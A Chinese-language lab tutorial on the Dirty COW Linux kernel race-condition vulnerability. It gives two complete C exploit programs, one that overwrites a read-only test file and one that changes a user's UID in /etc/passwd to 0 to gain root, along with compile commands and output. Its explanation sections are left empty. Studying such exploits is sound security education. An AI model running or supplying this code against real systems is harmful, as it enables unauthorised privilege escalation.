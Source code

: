 # 脏牛漏洞介绍

> 脏牛，也即dirty COW（copy on write）

Dirty COW 漏洞属于竞态条件漏洞，自2007年9月以来一直存在于 Linux 内核中，并于2016年10月被发现，该漏洞影响所有基于 Linux 的操作系统，包括 Android，其后果非常严重: 攻击者可以通过利用该漏洞获得root特权

该漏洞存在于 Linux 内核中的写时拷贝代码中。通过利用这个漏洞，攻击者可以修改任何受保护的文件，即使这些文件只对他们可读





# 原理





# 攻击dummy file

创建dummy file，并写入内容111111222222333333

```shell
sudo touch /zzz
sudo chmod 644 /zzz
sudo gedit /zzz
```

我们的目标是将“222222”替换为“ * * * * * *”

攻击代码：

```c
#include <sys/mman.h>
#include <fcntl.h>
#include <pthread.h>
#include <sys/stat.h>
#include <string.h>

void *map;
void *writeThread(void *arg);
void *madviseThread(void *arg);

int main(int argc, char *argv[])
{
  pthread_t pth1,pth2;
  struct stat st;
  int file_size;

  // Open the target file in the read-only mode.
  int f=open("/zzz", O_RDONLY);

  // Map the file to COW memory using MAP_PRIVATE.
  fstat(f, &st);
  file_size = st.st_size;
  map=mmap(NULL, file_size, PROT_READ, MAP_PRIVATE, f, 0);

  // Find the position of the target area
  char *position = strstr(map, "222222");                        

  // We have to do the attack using two threads.
  pthread_create(&pth1, NULL, madviseThread, (void  *)file_size); 
  pthread_create(&pth2, NULL, writeThread, position);             

  // Wait for the threads to finish.
  pthread_join(pth1, NULL);
  pthread_join(pth2, NULL);
  return 0;
}

void *writeThread(void *arg)
{
  char *content= "******";
  off_t offset = (off_t) arg;

  int f=open("/proc/self/mem", O_RDWR);
  while(1) {
    // Move the file pointer to the corresponding position.
    lseek(f, offset, SEEK_SET);
    // Write to the memory.
    write(f, content, strlen(content));
  }
}

void *madviseThread(void *arg)
{
  int file_size = (int) arg;
  while(1){
      madvise(map, file_size, MADV_DONTNEED);
  }
}
```

简要分析一下上面的代码逻辑：

- 



编译并运行

```shell
$ gcc cow_attack.c -lpthread
$ a.out
$ cat /zzz
111111******333333
```

发现文件内容已经被更改

# 攻击/etc/passwd 以获得特权

`/etc/passwd`文件包含七个冒号分隔的字段，第三个字段指定分配给用户的(UID)值，任何UID为0的用户都被系统视为 root 用户，此阶段我们的任务是利用脏牛漏洞来实现提权，也即是将第三个字段从1001改为0000

增加Charlie用户

```shell
$ sudo adduser charlie
$ cat /etc/passwd | grep charlie
charlie:x:1001:1002:,,,:/home/charlie:/bin/bash
```

攻击代码：

```c
#include <sys/mman.h>
#include <fcntl.h>
#include <pthread.h>
#include <sys/stat.h>
#include <string.h>

void *map;
void *writeThread(void *arg);
void *madviseThread(void *arg);

int main(int argc, char *argv[])
{
  pthread_t pth1,pth2;
  struct stat st;
  int file_size;

  // Open the target file in the read-only mode.
  int f=open("/etc/passwd", O_RDONLY);

  // Map the file to COW memory using MAP_PRIVATE.
  fstat(f, &st);
  file_size = st.st_size;
  map=mmap(NULL, file_size, PROT_READ, MAP_PRIVATE, f, 0);

  // Find the position of the target area
  char *position = strstr(map, "1001:1002");                        

  // We have to do the attack using two threads.
  pthread_create(&pth1, NULL, madviseThread, (void  *)file_size); 
  pthread_create(&pth2, NULL, writeThread, position);             

  // Wait for the threads to finish.
  pthread_join(pth1, NULL);
  pthread_join(pth2, NULL);
  return 0;
}

void *writeThread(void *arg)
{
  char *content= "0000:1002";
  off_t offset = (off_t) arg;

  int f=open("/proc/self/mem", O_RDWR);
  while(1) {
    // Move the file pointer to the corresponding position.
    lseek(f, offset, SEEK_SET);
    // Write to the memory.
    write(f, content, strlen(content));
  }
}

void *madviseThread(void *arg)
{
  int file_size = (int) arg;
  while(1){
      madvise(map, file_size, MADV_DONTNEED);
  }
}
```

编译、运行

```
$gcc new_cow.c -lpthread -o new
$./new
```

然后我们可以查看/etc/passwd文件中关于Charlie的东西：

```
charlie:x:0000:1002:,,,:/home/charlie:/bin/bash
```

第三个条目已经成功修改为了0000

```
# id
uid=0(root) gid=1002(charlie) groups=0(root),1002(charlie)
```

# 参考

https://raw.githubusercontent.com/dirtycow/dirtycow.github.io/master/dirtyc0w.c

